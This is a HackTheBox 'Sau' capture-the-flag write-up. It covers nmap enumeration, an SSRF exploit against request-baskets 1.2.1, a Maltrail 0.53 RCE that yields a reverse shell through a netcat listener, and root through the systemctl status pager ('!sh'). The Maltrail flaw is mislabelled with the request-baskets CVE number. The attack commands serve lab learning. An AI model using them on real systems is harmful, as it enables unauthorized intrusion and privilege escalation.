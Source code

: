 ```yaml
---
layout: post
title: "Sau writeup"
tags: ["Writeups", "HackTheBox", "CTF", "Request-Baskets-1.2.1", "CVE-2023-27163", "SSRF", "Maltrail-0.53", "RCE", "Spawn-Shell-Systemctl-Pager"]
author: 0xfederico
meta: "This box starts with a site that hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163 (SSRF). After exploiting the vulnerability I access hidden resources on other ports and find Maltrain at version 0.53 which is vulnerable to CVE-2023-27163 (RCE). I can exploit this vulnerability and become the user. To become root just look at what you can do with sudo and take advantage of systemctl's default pager"
---
```


# INDEX
- [Enumeration](#enumeration)
- [Privesc puma](#privesc-puma)

<br><br>

![Sau box HTB](/0xhacks/assets/images/machines/Sau/Sau.png)

## Enumeration

- `nmap -A -p- -T4 10.10.11.224`
    ```
    PORT      STATE    SERVICE VERSION
    22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
    |   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
    |_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Sun, 30 Jul 2023 20:04:04 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Sun, 30 Jul 2023 20:03:38 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.93%I=7%D=7/30%Time=64C6C21A%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
    SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
    SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
    SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
    SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
    SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2030\x20Jul\x20
    SF:2023\x2020:03:38\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
    SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
    SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
    SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
    SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
    SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
    SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
    SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
    SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
    SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
    SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
    SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
    SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
    SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
    SF::\x20nosniff\r\nDate:\x20Sun,\x2030\x20Jul\x202023\x2020:04:04\x20GMT\r
    SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
    SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
    SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
    SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
    SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
    SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
    SF:se\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

- by opening the site [http://10.10.11.224:55555/web](http://10.10.11.224:55555/web) I see that it hosts request-baskets at version 1.2.1 which is vulnerable to CVE-2023-27163. The exploit for this SSRF is [https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)

    I use the exploit to access local resources listed by nmap through the proxy offered by `request-baskets`:

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:8338"`

    - `./CVE-2023-27163.sh "http://10.10.11.224:55555" "http://127.0.0.1:80"`

    _NOTE: for the exploit to actually work you need to visit/query the URL that `request-baskets` returns (ex: http://10.10.11.224:55555/sflzwb)_

- by opening the URL from the browser in both cases `Maltrail` version 0.53 is hosted, in the first case it seems not to work due to the broken CSS while in the second case you see the login screen. This specific version is vulnerable to CVE-2023-27163. The exploit for this Unauthenticated RCE is: https://github.com/spookier/Maltrail-v0.53-Exploit

    - I listen with netcat on port 4444: `nc -lnvp 4444`

    - `python3 exploit.py $(ifconfig tun0 | grep inet | head -n 1 | awk '{ print $2 }') 4444 http://10.10.11.224:55555/sflzwb/login`
        
    bingo! I got reverse shell as user

<br><br>

## Privesc puma

- I get a better shell with:
    ```bash
    python -c ‘import pty; pty.spawn(“/bin/bash”)’
    ```

- `sudo -l`
    ```
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    ```

    I can become root very simply via: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/#spawn-shell-in-the-pager
    
    another reference: https://gtfobins.github.io/gtfobins/systemctl/

    ```
    !sh
    ```
    
    so if I can run `systemctl status foo` as root I can spawn another shell in it as root!

    _NOTE: It's exactly the same for `vim`: https://gtfobins.github.io/gtfobins/vim/_